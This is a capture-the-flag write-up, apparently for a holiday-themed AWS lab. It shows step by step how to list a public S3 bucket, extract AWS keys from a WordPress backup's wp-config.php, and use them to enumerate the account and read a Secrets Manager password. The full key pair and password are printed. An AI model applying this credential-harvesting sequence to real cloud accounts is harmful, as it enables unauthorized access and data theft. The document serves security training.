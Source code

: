 ## Day 17

S3 is the Amazon Web Service used for data storage, but for our purposes it might as well stand for Stealing Secrets Sneakily. The benefits of the cloud - massive amounts of data available anywhere - can quickly become a security nightmare if you don't know how to properly secure it. But that's what we're here to help with.  

> Somehow, the Grinch has managed to get hold of all the Elves' names and email addresses. How could this have happened? Given the scope of the breach, McSkidy believes someone in HR must be involved. You know that HR recently launched a new portal site using WordPress. You also know that HR didn't request any infrastructure from IT to deploy this portal site. Where is that portal hosted?

We'll be using the AWS CLI tool to explore the Best Festival Company's cloud infrastructure and see what sort of information is exposed.  

>  What is the name of the S3 Bucket used to host the HR Website announcement? 

To find out what S3 bucket they're using, let's check the website assets and see what URLs they're using. Scrolling up and checking out the tree on the right in today's challenge description, we see an interesting url.  

![An image of the URL revealing the website's S3 bucket name.](tree.png)

    https://s3.amazonaws.com/images.bestfestivalcompany.com/tree.png

Therefore the bucket is "images.bestfestivalcompany.com".  

Now we can start looking at the bucket from the outside.  

    $ aws s3 ls s3://images.bestfestivalcompany.com --no-sign-request
    
    2021-11-13 10:06:51       6148 .DS_Store
    2021-11-13 07:43:03     108420 0vF39p3.png
    2021-11-27 06:55:21     705191 AWSConsole.png
    2021-11-13 07:43:03       5652 aws-logo.png
    2021-11-13 10:06:51         68 flag.txt
    2021-11-13 10:06:51    2349068 flyer.png
    2021-11-13 07:43:03      92531 presents.jpg
    2021-11-13 07:43:03       4680 tree.png
    2021-11-23 18:52:22   16556739 wp-backup.zip

We're already seeing some juicy stuff. Onto our next question:

> What is the message left in the flag.txt object from that bucket?

Let's download it:

    aws s3 cp s3://images.bestfestivalcompany.com/flag.txt . --no-sign-request

And then `cat` it out:

    It's easy to get your elves data when you leave it so easy to find!

> What other file in that bucket looks interesting to you?

If your eyes were drawn to wp-backup.zip, you're already a Super-A Class Hacker. We know the HR department launched a WordPress site, so if this is a backup of the site *after* it was configured, we should find some useful creds.  

    aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request

    unzip wp-backup.zip

> What is the AWS Access Key ID in that file?

The first port of call when you've got access to a WordPress directory is wp-config.php. `cat` this out and we get what we need:

    /* Add any custom values between this line and the "stop editing" line. */
    define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
    define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
    define('S3_UPLOADS_SECRET', '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');
    define('S3_UPLOADS_REGION', 'us-east-1');

> What is the AWS Account ID that access-key works for?

Now that we have some keys, let's configure a local AWS profile for them:

    $ aws configure --profile bfc 
    AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
    AWS Secret Access Key [None]: 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
    Default region name [None]: us-east-1
    Default output format [None]:  

I called the profile "bfc" for Best Festival Company but you might prefer a more descriptive title.  

Now we can use the access key to look up the account ID:

    $ aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile bfc 

    {
        "Account": "019181489476"
    }

"STS" is the AWS Security Token Service and this part of the API exposes a few methods for identity and access management. You can read more about it [here](https://docs.aws.amazon.com/STS/latest/APIReference/API_GetAccessKeyInfo.html). 

> What is the Username for that access-key?

We can run the following command and it'll look at the access key we've configured for this profile and return some more user info:

    aws sts get-caller-identity --profile bfc

We get "ElfMcHR@bfc.com".  

> There is an EC2 Instance in this account. Under the TAGs, what is the Name of the instance?

In the same way that we can access STS-related methods via the STS API, we can access EC2 related methods via the EC2 API. Wow, AWS sure does make it easy for us huh?  

To list all the EC2 instances running, we can do:

    aws ec2 describe-instances --output text --profile bfc

But that gives us a whole bunch of info we don't need, so let's pare it down:

    aws ec2 describe-instances --output text --profile | grep TAGS

We get a much more manageable result:

    TAGS    aws:cloudformation:stack-id     arn:aws:cloudformation:us-east-1:019181489476:stack/HR-Portal/5ebc4e90-447e-11ec-a711-12d63f44d7b7
    TAGS    aws:cloudformation:logical-id   Instance
    TAGS    created_by      Elf McHR
    TAGS    aws:cloudformation:stack-name   HR-Portal
    TAGS    Name    HR-Portal

> What is the database password stored in Secrets Manager?

Secrets Manager is yet another Amazon Web Service with [its own methods](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/index.html). First let's list the secrets out:

    aws secretsmanager list-secrets --profile bfc 

![JSON data returned by the Secrets Manager API](secrets.png)

Now that we've got the name of the secret, we can look it up. The API reference for [get-secret-value](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/get-secret-value.html) says we can give it either a friendly name or the ARN. Let's use the friendly name.  

    aws secretsmanager get-secret-value --secret-id HR-Password --profile bfc

Ah! Fooled again. We find this disappointment:

    "SecretString": "The Secret you're looking for is not in this **REGION**. Santa wants to have low latency to his databases. Look closer to where he lives."

A "region" in AWS terms is a part of the world where AWS has a bunch of data centres. Each region (e.g. us-east-1, which is what we're looking at right now and which is predictably on the US east coast) includes multiple Availability Zones, which are redundant data centres. This setup makes AWS extremely resilient. For most AWS services, you set them up in a region, and there are a bunch of implications for which region you choose and whether you want the services in one to interact with services in another.  

Looking at a map of AWS regions, it looks like the northernmost region is in Europe. There's a region called "eu-north-1" so let's try that.  

First let's list our profile details:

    aws configure list --profile bfc 

        Name                    Value             Type    Location
        ----                    -----             ----    --------
    profile                      bfc           manual    --profile
    access_key     ****************YAOI shared-credentials-file    
    secret_key     ****************1Qmc shared-credentials-file    
        region                us-east-1      config-file    ~/.aws/config

Now let's change the region for our profile:

    aws configure set region eu-north-1 --profile bfc 

If you run the `list` command again, you'll see it says "eu-north-1" instead of "us-east-1" now.  

Now let's list our secrets again:

    aws secretsmanager list-secrets --profile bfc

Aha! We see new secrets. We must be on the right track. This one is also called HR-Password but the description this time says "Employee DB Password". We can use the same command we did last time to get the secret:

    aws secretsmanager get-secret-value --secret-id HR-Password --profile bfc

This time, we see something much more valuable:

    "SecretString": "Winter2021!"

Too easy. That's why it's so important to lock down your cloud.  